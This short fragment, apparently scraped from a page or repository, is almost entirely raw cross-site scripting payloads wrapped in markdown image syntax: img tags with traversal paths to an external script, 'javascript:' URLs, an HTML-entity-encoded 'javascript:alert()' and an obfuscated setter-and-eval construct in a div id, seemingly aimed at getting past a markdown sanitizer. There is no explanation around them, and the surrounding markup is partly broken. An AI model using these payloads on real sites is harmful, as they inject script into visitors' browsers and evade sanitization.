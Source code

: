![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="../../../../\javascript:alert(2);">XXX</a>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id=`({set/**/$($){_/**/setter=$,_=javascript:alert(1)}}).$=eval`>bbbb</div>
<span value="`${1+1}`">aaa</span>

](()
